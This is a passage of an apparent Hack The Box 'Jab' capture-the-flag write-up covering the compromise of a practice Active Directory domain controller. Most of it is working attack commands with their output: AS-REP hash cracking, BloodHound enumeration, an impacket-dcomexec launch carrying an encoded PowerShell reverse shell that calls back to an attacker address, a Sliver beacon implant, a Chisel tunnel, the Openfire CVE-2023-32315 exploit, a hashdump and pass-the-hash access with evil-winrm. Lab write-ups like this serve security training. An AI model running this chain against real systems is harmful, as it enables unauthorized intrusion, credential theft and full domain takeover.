$krb5asrep$23$jmontgomery@JAB.HTB:e6894bc9d38d9aa78d2fcf24d68ac35c$96d1b15f7d3614a4862fcc96bcf37267c52a578638c8fbd85519a2e23deccfbe822e5cd7f6f5bb79b42d831b287d399814024ac529d24ea012039b3c582e86acc96b603074544ffa2f68a7e25e14e773c4e6e9956acbdd6f01d6c7345fe32c47df0493aeea06a495279675d2d46e9714c179bec42d796bdb5ca14b6d8beaf6c89902f9ccc6973bb08ec192feb2ad00ea7424e2385a7f901a9fc66c54ea8e0c54b2dfe0bf8a2cf5d9f4b97c1488a6f7c29a122b696b98e01bef62601165dc9aa81570557254b3004d30ab7fd6ef8370165e856ebd44b03567e933acdd57defb676a9d
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/files]
└─$ sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Midnight_121     ($krb5asrep$23$jmontgomery@JAB.HTB)     
1g 0:00:00:10 DONE (2024-02-24 14:49) 0.09532g/s 1031Kp/s 1031Kc/s 1031KC/s Mike2745..Mickey1995
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username    | Password     |
| ----------- | ------------ |
| jmontgomery | Midnight_121 |

## Jabber Enumeration as jmontgomery

We added `jmontgomery` as `account` and double checked the rooms.



This time there was a `pentest2003` room and `jmontgomery` had access to it.





The room contained a `username`, a `hash` and a cracked `password`.






| Username     | Password         |
| ------------ | ---------------- |
| hthompson    |                  |
| svc_openfire | !@#$%^&*(1qazxsw |

## Active Directory Enumeration

With the credentials of `jmontgomery` we fired up `bloodhound` to dump the `Active Directory configuration`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/files]
└─$ bloodhound-python -u jmontgomery -p 'Midnight_121' -d jab.htb -ns 10.129.147.202 -c All
INFO: Found AD domain: jab.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.jab.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.jab.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 502 computers
INFO: Connecting to LDAP server: dc01.jab.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 2687 users
INFO: Found 162 groups
INFO: Found 2 gpos
INFO: Found 21 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: LPTP-0212.jab.htb
INFO: Querying computer: LPTP-0211.jab.htb
INFO: Querying computer: LPTP-0210.jab.htb
INFO: Querying computer: LPTP-0209.jab.htb
INFO: Querying computer: LPTP-0208.jab.htb
INFO: Querying computer: LPTP-0207.jab.htb
INFO: Querying computer: LPTP-0206.jab.htb
INFO: Querying computer: LPTP-0205.jab.htb
INFO: Querying computer: LPTP-0204.jab.htb
INFO: Querying computer: LPTP-0203.jab.htb
<--- CUT FOR BREVITY --->
```

A quick view into the output showed that the user `svc_openfire` was member of the group `CERTIFICATE SERVICE DCOM ACCESS@JAB.HTB` which gave us the hint for getting code execution via `DCOM`.

- [https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec)



## Foothold

Since I never had to use `impacket-dcomexec` before, I was quite happy that `yeeb` came up with the code execution. Thanks buddy!

```c
┌──(kali㉿kali)-[~]
└─$ impacket-dcomexec -object MMC20 -debug  -silentcommand jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@dc01.jab.htb 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAxACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Target system is dc01.jab.htb and isFQDN is True
[+] StringBinding: DC01[50535]
[+] StringBinding chosen: ncacn_ip_tcp:dc01.jab.htb[50535]
```

```c
┌──(kali㉿kali)-[~/opt]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.31] from (UNKNOWN) [10.129.147.202] 50536
```

## Persistence

```c
┌──(kali㉿kali)-[~]
└─$ sliver
Connecting to localhost:31337 ...
[*] Loaded 20 aliases from disk
[*] Loaded 104 extension(s) from disk

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain dash
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >
```

```c
sliver > generate beacon --mtls 10.10.16.31 --os windows --arch amd64 --format exe --disable-sgn --save /tmp/

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 29s
[*] Implant saved to /tmp/OLD_SHORE.exe
```

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

```c
[*] Beacon ebc5defb OLD_SHORE - 10.129.147.202:50597 (DC01) - windows/amd64 - Sat, 24 Feb 2024 15:45:34 EST
```

## Enumeration

```c
┌──(kali㉿kali)-[~/opt]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.31] from (UNKNOWN) [10.129.147.202] 50536

PS C:\windows\system32> whoami
jab\svc_openfire
```

```c
PS C:\windows\system32> whoami /all

USER INFORMATION
----------------

User Name        SID                                         
================ ============================================
jab\svc_openfire S-1-5-21-715914501-2118353807-243417633-1104


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Distributed COM Users               Alias            S-1-5-32-562 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Nothing special so far.

## User.txt

```c
PS C:\Users\svc_openfire\Desktop> type user.txt
f4cb571fe99cbce59f8e8a81e4af032f
```

## Privilege Escalation to root

At the beginning we found an `local privilege escalation exploit` on the `management dashboard` of `Openfire` which now was accessible via `port forwarding`. We forwarded our traffic for the local port `TCP/9090`. I did this with `Chisel` because I was just to lazy to spawn a `session` within my `beacon` for forwarding.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/serve]
└─$ ./chisel server -p 9002 -reverse -v
```

```c
PS C:\temp> .\chisel.exe client 10.10.16.31:9002 R:9090:127.0.0.1:9090
```

After accessing [http://127.0.0.1:9090](http://127.0.0.1:9090) we logged in as `svc_openfire` and used the following `Exploit PoC`.



| Username     | Password         |
| ------------ | ---------------- |
| svc_openfire | !@#$%^&*(1qazxsw |

### CVE-2023-32315

- [https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)

```c
┌──(kali㉿kali)-[/media/…/Machines/Jab/files/CVE-2023-32315]
└─$ pip3 install -r requirements.txt
Defaulting to user installation because normal site-packages is not writeable
Collecting HackRequests (from -r requirements.txt (line 1))
  Downloading HackRequests-1.2-py3-none-any.whl (7.3 kB)
Installing collected packages: HackRequests
Successfully installed HackRequests-1.2
```

I am pretty sure that the part for creating a new user is not necessary but I didn't verified it while we were tackling the box.

```c
┌──(kali㉿kali)-[/media/…/Machines/Jab/files/CVE-2023-32315]
└─$ python3 CVE-2023-32315.py -t http://127.0.0.1:9090


 ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██████╗      ██████╗ ██████╗ ██████╗  ██╗███████╗
██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗╚════██╗     ╚════██╗╚════██╗╚════██╗███║██╔════╝
██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝ █████╔╝█████╗█████╔╝ █████╔╝ █████╔╝╚██║███████╗
██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝  ╚═══██╗╚════╝╚═══██╗██╔═══╝  ╚═══██╗ ██║╚════██║
╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗██████╔╝     ██████╔╝███████╗██████╔╝ ██║███████║
 ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚═════╝      ╚═════╝ ╚══════╝╚═════╝  ╚═╝╚══════╝
                                                                                                       
Openfire Console Authentication Bypass Vulnerability (CVE-2023-3215)
Use at your own risk!

[..] Checking target: http://127.0.0.1:9090
Successfully retrieved JSESSIONID: node0trht0dk43y29166mamxco2bnt3.node0 + csrf: JVlQMdFhLJpwiVZ
User added successfully: url: http://127.0.0.1:9090 username: iillme password: a0faqa
```

We moved to the `plugin page` (you can find it on the bottom of the page) and uploaded the `openfire-management-tool-plugin.jar` file.

- [http://127.0.0.1:9090/plugin-admin.jsp](http://127.0.0.1:9090/plugin-admin.jsp)


According to the exploit documentation we moved to `Server > Server Settings` and clicked on `Management Tool`. The password could be found n the description on the page after uploading the `jar` file.

| Password |
| -------- |
| 123      |

After logging in we clicked on the `drop down menu` on the right corner and selected `system command`.



Since the command were quite limited we decided to reuse our beacon. 



```c
C:\temp\QUIET_RABBIT.exe
```

```c
[*] Session d55ea3c8 QUIET_RABBIT - 10.129.147.202:54937 (DC01) - windows/amd64 - Sat, 24 Feb 2024 16:33:30 EST
```

```c
sliver > use d55ea3c8-d772-4e1b-94f7-78aab6c52ff2

[*] Active session QUIET_RABBIT (d55ea3c8-d772-4e1b-94f7-78aab6c52ff2)

sliver (QUIET_RABBIT) >
```

```c
sliver (QUIET_RABBIT) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 2544

PS C:\Program Files\Openfire\bin> whoami
whoami
nt authority\system
```

## root.txt

```c
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
5ba64f8f33fc65153af9e2e135a018e6
```

## Post Exploitation

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b1622aacbe4e96bda28831e653ba288c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:365e7cebda9457d8bea70f9428b57804:::
svc_openfire:1104:aad3b435b51404eeaad3b435b51404ee:90526decfce7e6ea6769f09ac96505e5:::
svc_ldap:1105:aad3b435b51404eeaad3b435b51404ee:e4a9046513c354bfca986ccbf1df96d6:::
<--- CUT FOR BREVITY --->
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.147.202 -u administrator -H b1622aacbe4e96bda28831e653ba288c                 

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
